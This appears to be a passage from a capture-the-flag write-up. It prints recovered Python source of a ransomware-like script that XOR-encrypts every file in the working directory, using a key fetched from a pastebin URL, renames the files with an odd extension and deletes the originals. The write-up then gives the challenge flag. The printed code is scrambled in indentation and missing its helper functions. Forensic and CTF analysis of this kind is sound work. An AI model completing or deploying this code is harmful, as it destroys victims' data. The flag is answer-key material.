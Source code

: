 ```py
    try:
        with open(file_path, 'rb') as file:
            pass
    except Exception as e:
            data = file.read()
                processed_data = xor_encrypt_decrypt(data, key)
                if encrypt:
                    new_file_path = file_path + '.oiiaiouiiiai'
                else:
                    new_file_path = file_path.rsplit('.oiiaiouiiiai', 1)[0]
                with open(new_file_path, 'wb') as file:
                    file.write(processed_data)
                        os.remove(file_path)
                        print(f'Processed {file_path} -> {new_file_path}')
            print(f'Failed to process {file_path}: {e}')
if __name__ == '__main__':
    pastebin_url = 'https://pastebin.com/raw/PDXfh5bb'
    key = fetch_key_from_pastebin(pastebin_url)
    if not key:
        print('Failed to retrieve the key.')
        exit(1)
    for file_name in os.listdir():
        if not os.path.isfile(file_name):
            continue
        if file_name == os.path.basename(__file__):
            continue
        if file_name.endswith('.oiiaiouiiiai'):
            process_file(file_name, key, encrypt=False)
        else:
            process_file(file_name, key, encrypt=True)
```

What the program does was:

1. Encrypt all files in current directory using XOR with a key retrieved from an url
2. Change the encrypted file exntenson to `.oiiaiouiiiai`

***

# Flag

The flag can be found in the url initialized in the code (https://pastebin.com/raw/PDXfh5bb)

> WGMY{8b9777c8d7da5b10b65165489302af32}

***

# Findings/Notes

1. Somehow the pastebin url can be seen from the memory dump itself
